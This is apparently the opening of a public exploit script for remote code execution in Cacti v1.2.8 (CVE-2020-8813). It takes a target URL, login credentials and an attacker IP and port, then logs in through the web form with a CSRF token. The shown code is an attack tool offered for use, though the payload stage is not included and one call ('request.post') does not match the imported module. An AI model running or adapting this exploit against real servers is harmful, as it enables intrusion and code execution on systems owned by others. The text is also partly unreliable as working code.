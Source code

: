     #!/usr/bin/python3
     
    # Exploit Title: Cacti v1.2.8 Remote Code Execution
    # Date: 03/02/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://cacti.net/
    # Version: v1.2.8
    # Tested on: CentOS 7.3 / PHP 7.1.33
     
    import requests
    import sys
    import warnings
    from bs4 import BeautifulSoup
    from urllib.parse import quote
     
    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
     
     
    if len(sys.argv) != 6:
        print("[~] Usage : ./Cacti-exploit.py url username password ip port")
        exit()
     
    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]
     
    def login(token):
        login_info = {
        "login_username": username,
        "login_password": password,
        "action": "login",
        "__csrf_magic": token
        }
        login_request = request.post(url+"/index.php", login_info)
        login_text = login_request.text
        if "Invalid User Name/Password Please Retype" in login_text:
            return False
        else:
            return True
     